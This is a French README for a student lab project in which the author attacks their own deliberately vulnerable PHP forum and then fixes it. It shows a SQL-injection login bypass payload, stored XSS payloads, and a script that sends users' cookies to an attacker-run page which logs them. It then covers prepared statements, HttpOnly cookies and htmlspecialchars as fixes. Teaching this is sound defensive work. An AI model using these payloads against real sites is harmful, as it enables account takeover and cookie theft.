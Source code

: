 # Projet-web-secu

Dans le cadre de ce projet, nous sommes partie d’un site web que j’ai développée en PHP sur laquelle j’ai exploré les possibles failles qu’elle pourrait contenir.

L’application est un forum de discussion informatique. qui offre la possibilité de s’authentifier, de soumettre des sujets et desmessages.

**Outils**: PHP, HTML, CSS, MySQL, PHPMYADMIN

## Mise en évidence d’une faille d’injection SQL

Pour contribuer au forum c’est-à-dire réponndre créer un sujet, ecrire un message, l’on a besoin de se connecter avec un pseudo et un mot de mot de passe. 
Ici nous verons que même un utilisateur qui n’a pas de compte peut se connecter fraduleusement et causer des degâts  avec de l’injection SQL dans la page de login.

Dans la page de connexion nous rentrons le pseudo d’un utilisateur existant toto par exemple et password qui n’est pas celle de l’utilisateur toto: " or ""="
et on vois que nous sommes connectés comme etabt l’utilisateur toto. Ce qui nous permet de créer des sujets en tant que utilisateur toto

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/1.png)

## Solution

Dans la version sécurisé du site (http://localhost/myforumsecu) nous avons utliser les réquêtes préparées dans le code qui êrmet de se connecter (`loger.php`) pour palier ce problème.
l’ancienne ligne:
`$result =$id_con->query('SELECT * FROM users WHERE id_user="'.$pseudo.'" AND passwd="'.$pass.'" ') ;`
devient:

`$result = $id_con->prepare("SELECT * FROM users where id_user = :pseudo AND passwd = :pass");`
`$result -> execute(array('pseudo' => $pseudo, 'pass' => $pass));`

## Mise en évidence de la faille XSS

Dans la version non sécurisée du site (http://localhost/myforum) mettons dans le champs de commentaire le message `<u>hello attaquant</u>`

On constate que la mise en forme html est faite. On se retrouve donc avec hello attaquant. Le plus gros problème est que cette faille est persistante, car inscrite dans la base de données.

Ayant connaissance de cette faille, l'attaquant pourrait casser la structure du site. Comme nous le montrerons ici en injectant du code javascript faisant une redirection vers le site google.com.

`<script>document.location="https://www.google.com"</script>`

On constate qu’à chaque ouverture du sujet contenant le code injecté il y a une redirection automatique vers google.com. Ce qui est inquiétant c’est que cela reste permanent.

## Exploitation de la faille

Essayons d’exploiter cette faille pour voler des cookies qui dans un cas précis pourrait permettre à un attaquant de s'attribuer des rôles plus élevés que prévu.

Ici nous allons écrire un code PHP (https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant/index.php) permettant de récupérer les cookies des utilisateurs.
Ce code se trouve peut se trouver sur un autre serveur distant (celui de l’attaquant par exemple https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant ). Dans ce code on récupère les cookies, puis on les stocke et enfin, on redirige l’utilisateur vers l’accueil comme si rien ne s’était passé. Pour notre exemple le site a décidé de sauvegarder les mots de passe et login pour permettre de se souvenir de l’utilisateur lors d’une nouvelle connection.

Maintenant l’attainjectons un code javascript dans un message ou dans un sujet qui redirige vers le code PHP malveillant.

`<script>document.location="http://localhost/siteattaquant?cookie="+document.cookie;</script>`

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/2.png)

Maintenant l’attaquant a réussi son coup et s’attend à recoter le buttin. Si un l’utilisateur se connect en accèptant que le site se souvienne de lui, ou pour d’autres cookies par exemple, l’attaquant récupère alors toutes ces données sensibles dans un repertoire (`C:\wamp64\www\siteAttaquant\stolen_data.txt`) lors de sa visite sur la page contenant le code injecté.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/3.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/4.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/5.png)

## Solution

 Dans la version sécurisée du site (http://localhost/myforumsecu) nous avons

  - protégé les cookies en ajoutant l'attribut ***HttpOnly***
  - utilisé la méthode ***htmlspecialchars*** avec le flag *ENT_IGNORE* pour remplacer tous les caractères HTML. (https://www.php.net/manual/fr/function.htmlspecialchars.php)



